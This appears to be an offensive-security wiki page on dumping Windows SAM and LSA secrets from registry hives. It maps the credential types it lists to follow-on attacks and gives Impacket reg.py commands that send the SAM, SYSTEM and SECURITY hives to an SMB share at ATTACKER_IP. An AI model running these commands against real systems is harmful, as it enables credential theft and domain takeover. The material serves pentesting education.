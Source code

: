 SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material                      | Subsequent attacks                                                                                                                                                                                                                                                                                                                                                                 |
| ---------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Plaintext passwords                      | [credential spraying](../../../../../ad/movement/credentials/bruteforcing/password-spraying.md), [stuffing](../../../../../ad/movement/credentials/bruteforcing/stuffing.md), [shuffling](../../../../../ad/movement/credentials/credential-shuffling.md) or [silver tickets](../../../../../ad/movement/kerberos/forged-tickets/silver.md)                                        |
| LM and NT hashes                         | [credential spraying](../../../../../ad/movement/credentials/bruteforcing/password-spraying.md), [stuffing](../../../../../ad/movement/credentials/bruteforcing/stuffing.md), [shuffling](../../../../../ad/movement/credentials/credential-shuffling.md), [cracking](../../../../../ad/movement/credentials/cracking.md), [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) |
| Kerberos keys (RC4, i.e. == NT hash)     | [credential cracking](../../../../../ad/movement/credentials/cracking.md), [overpass-the-hash](../../../../../ad/movement/kerberos/ptk.md) or [silver tickets](../../../../../ad/movement/kerberos/forged-tickets/silver.md)                                                                                                                                                       |
| Kerberos keys (DES, AES)                 | [credential cracking](../../../../../ad/movement/credentials/cracking.md), [pass-the-key](../../../../../ad/movement/kerberos/ptk.md) or [silver tickets](../../../../../ad/movement/kerberos/forged-tickets/silver.md)                                                                                                                                                            |
| Domain Cached Credentials (DCC1 or DCC2) | [credential cracking](../../../../../ad/movement/credentials/cracking.md)                                                                                                                                                                                                                                                                                                          |

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
### Reg.py

[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can be used to remotely save hives from an UNIX-like machine. For instance, this can be used to easily escalate from a [Backup Operator](../../../../../ad/movement/domain-settings/builtin-groups/) member to a Domain Admin by dumping a Domain Controller's secrets and use them for a [DCSync](dcsync.md).

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

```bash
# start an SMB share
smbserver.py -smb2support "someshare" "./"

# save each hive manually
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

# Or backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
```

### Secretsdump

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md) (Kerberos).
